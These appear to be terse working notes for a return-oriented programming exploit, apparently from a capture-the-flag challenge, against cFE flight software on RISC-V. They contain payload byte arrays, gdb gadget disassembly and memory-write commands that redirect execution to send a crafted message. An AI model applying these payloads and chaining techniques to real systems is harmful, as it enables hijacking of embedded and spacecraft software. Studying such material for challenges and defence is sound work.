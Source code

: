 [0x40,0x00,0x00,0x00,0x20,0x33,0x90,0x94,0xa0,0x7f,0xf9,0x93,0x3c,0x3d,0x3e,0x3f,0x40,0x41,0x42,0x43,0x44,0x45,0x46,0x47,0x9c,0x7c,0xf9,0x93,0x58,0xc4,0x2d,0x69,0x50,0x51,0x52,0x53,0x54,0x55,0x56,0x57,0x58,0x59,0x5a,0x5b,0x5c,0x5d,0x5e,0x5f,0x60,0x61,0x62,0x63,0x64,0x65,0x66,0x67,0x68,0x69,0x6a,0x6b,0x96,0x78,0x2e,0x69]


[0x14,0x33,0x90,0x94,0x34,0x35,0x36,0x37,0x38,0x39,0x3a,0x3b,0x3c,0x3d,0x3e,0x3f,0x9e,0x11,0x90,0x94,0x44,0x45,0x46,0x47,0xa4,0x7c,0xf9,0x93,0x7c,0x37,0x2e,0x69,0x50,0x51,0x52,0x53,0x54,0x55,0x56,0x57,0x58,0x59,0x5a,0x5b,0x5c,0x5d,0x5e,0x5f,0x60,0x61,0x62,0x63,0x64,0x65,0x66,0x67,0x68,0x69,0x6a,0x6b,0x96,0x78,0x2e,0x69]


[0xa0,0x7f,0xf9,0x93,0x34,0x35,0x36,0x37,0x38,0x39,0x3a,0x3b,0x3c,0x3d,0x3e,0x3f,0x9e,0x11,0x90,0x94,0x44,0x45,0x46,0x47,0xa4,0x7c,0xf9,0x93,0x7c,0x37,0x2e,0x69,0x50,0x51,0x52,0x53,0x54,0x55,0x56,0x57,0x58,0x59,0x5a,0x5b,0x5c,0x5d,0x5e,0x5f,0x60,0x61,0x62,0x63,0x64,0x65,0x66,0x67,0x68,0x69,0x6a,0x6b,0x96,0x78,0x2e,0x69]

0x94 90 11 9e = call to cfe_sb_sendmsg // should we just call it?
exec x/10i 0x69 2E 37 7C
   0x692e377c <OS_Timer_NoArgCallback+24>:	lw	a5,-20(s0)
   0x692e3780 <OS_Timer_NoArgCallback+28>:	lw	a0,-36(s0)
   0x692e3784 <OS_Timer_NoArgCallback+32>:	jalr	a5
   0x692e3786 <OS_Timer_NoArgCallback+34>:	nop
   0x692e3788 <OS_Timer_NoArgCallback+36>:	lw	ra,44(sp)
   0x692e378a <OS_Timer_NoArgCallback+38>:	lw	s0,40(sp)
   0x692e378c <OS_Timer_NoArgCallback+40>:	addi	sp,sp,48
   0x692e378e <OS_Timer_NoArgCallback+42>:	ret

this would allow changing a0 to the pointer to our constructed packet and a5 to the call to CFE_SB_SendMsg or just before it in a different function and then we would need to verify the return address is in the correct place to return to normal operation

then this version of the rop is done

```c
-exec x/10i 0x692dc458
   0x692dc458 <CFE_PSP_MemCpy+20>:	lw	a2,-28(s0)
   0x692dc45c <CFE_PSP_MemCpy+24>:	lw	a1,-24(s0)
   0x692dc460 <CFE_PSP_MemCpy+28>:	lw	a0,-20(s0)
   0x692dc464 <CFE_PSP_MemCpy+32>:	jal	ra,0x692b8da0 <memcpy@plt>
   0x692dc468 <CFE_PSP_MemCpy+36>:	li	a5,0
   0x692dc46a <CFE_PSP_MemCpy+38>:	mv	a0,a5
   0x692dc46c <CFE_PSP_MemCpy+40>:	lw	ra,28(sp)
   0x692dc46e <CFE_PSP_MemCpy+42>:	lw	s0,24(sp)
   0x692dc470 <CFE_PSP_MemCpy+44>:	addi	sp,sp,32
   0x692dc472 <CFE_PSP_MemCpy+46>:	ret
```
## send tlm message
1. -exec set {int}0x93f97c9c=0x9490118c	    // call ROP_APP_Send_Token function + 
2. -exec set {int}0x93f97cbc=0x692e7896 	// align stack frame
0x94901150
```c
[0x30,0x31,0x32,0x33,0x34,0x35,0x36,0x37,0x38,0x39,0x3a,0x3b,0x3c,0x3d,0x3e,0x3f,0x40,0x41,0x42,0x43,0x44,0x45,0x46,0x47,0x48,0x49,0x4a,0x4b,0x8c,0x11,0x90,0x94,0x50,0x51,0x52,0x53,0x54,0x55,0x56,0x57,0x58,0x59,0x5a,0x5b,0x5c,0x5d,0x5e,0x5f,0x60,0x61,0x62,0x63,0x64,0x65,0x66,0x67,0x68,0x69,0x6a,0x6b,0x96,0x78,0x2e,0x69]
```

